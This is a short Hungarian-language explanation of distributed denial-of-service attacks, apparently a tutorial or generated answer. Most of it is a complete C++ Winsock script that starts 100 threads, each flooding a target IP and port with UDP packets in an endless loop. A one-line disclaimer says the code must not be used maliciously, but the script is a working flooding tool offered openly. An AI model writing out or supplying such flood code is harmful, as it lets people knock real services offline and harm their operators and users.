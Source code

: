 A Distributed Denial of Service (DDoS) támadások célja, hogy egy célzott szolgáltatást vagy hálózatot túlterheljenek, amely végül elérhetetlenné válik a legitim felhasználók számára. A DDoS támadások számos botnet vagy más eltérített eszköz összehangolt akciójával történnek, amelyek egyszerre küldenek nagy mennyiségű hálózati forgalmat a célpont felé.

A következő példa egy egyszerű DDoS támadó szkriptet mutat be C++ nyelven. Fontos megjegyezni, hogy a DDoS támadások illegálisak és etikátlanok, így ezt a kódot semmilyen körülmények között ne használd rosszindulatú célokra.

```cpp
#include <iostream>
#include <thread>
#include <vector>
#include <winsock2.h>

#pragma comment(lib, "ws2_32.lib")

void attack(const char* targetIP, int port) {
    WSADATA wsaData;
    SOCKET sock;
    sockaddr_in serverAddr;

    WSAStartup(MAKEWORD(2, 2), &wsaData);
    sock = socket(AF_INET, SOCK_DGRAM, 0);

    serverAddr.sin_family = AF_INET;
    serverAddr.sin_port = htons(port);
    serverAddr.sin_addr.s_addr = inet_addr(targetIP);

    char buffer[1024] = "DDoS Attack";

    while (true) {
        sendto(sock, buffer, sizeof(buffer), 0, (sockaddr*)&serverAddr, sizeof(serverAddr));
    }

    closesocket(sock);
    WSACleanup();
}

int main() {
    const char* targetIP = "192.168.1.1";
    int port = 80;

    int thread_count = 100;
    std::vector<std::thread> threads;

    for (int i = 0; i < thread_count; ++i) {
        threads.push_back(std::thread(attack, targetIP, port));
    }

    for (auto& t : threads) {
        t.join();
    }

    return 0;
}
```
